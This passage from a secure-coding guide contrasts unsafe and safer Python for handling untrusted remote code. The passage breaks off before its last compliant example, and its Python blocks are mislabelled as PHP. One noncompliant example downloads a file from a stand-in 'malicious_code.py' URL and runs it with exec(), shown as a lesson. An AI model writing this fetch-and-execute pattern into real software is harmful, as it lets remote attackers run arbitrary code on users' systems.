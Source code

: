 The noncompliant code retrieves code from an untrusted source using the requests library and executes it using the exec() function. This approach poses significant security risks as the untrusted code can potentially contain malicious instructions or perform unauthorized actions on the system.






<span class="d-inline-block p-2 mr-1 v-align-middle bg-green-000"></span>Compliant code:


```php
import requests
import ast

# Fetch and evaluate code from an untrusted source
untrusted_code = requests.get('http://example.com/untrusted_code.py').text
ast.parse(untrusted_code)
```


The compliant code takes a more cautious approach when including functionality from an untrusted control. Instead of directly executing the code, it uses the ast.parse() function from the ast module to parse and evaluate the code as an abstract syntax tree (AST). This allows for a safer analysis of the code without executing it directly.

By parsing the untrusted code as an AST, the compliant code gains the ability to inspect and validate the code's structure and contents before deciding whether to execute it. This mitigates the risk of running arbitrary or malicious code, providing an additional layer of security.





## Download of Code Without Integrity Check

<span class="d-inline-block p-2 mr-1 v-align-middle bg-red-000"></span>Noncompliant code:


```php
import requests

# Download code without integrity check
code_url = 'http://example.com/malicious_code.py'
response = requests.get(code_url)
code = response.text

# Execute the downloaded code
exec(code)
```

The noncompliant code directly downloads code from a remote source using the requests library without performing any integrity check. It then proceeds to execute the downloaded code using the exec() function. This approach can be dangerous as it allows the execution of potentially malicious or unauthorized code without verifying its integrity.





<span class="d-inline-block p-2 mr-1 v-align-middle bg-green-000"></span>Compliant code:
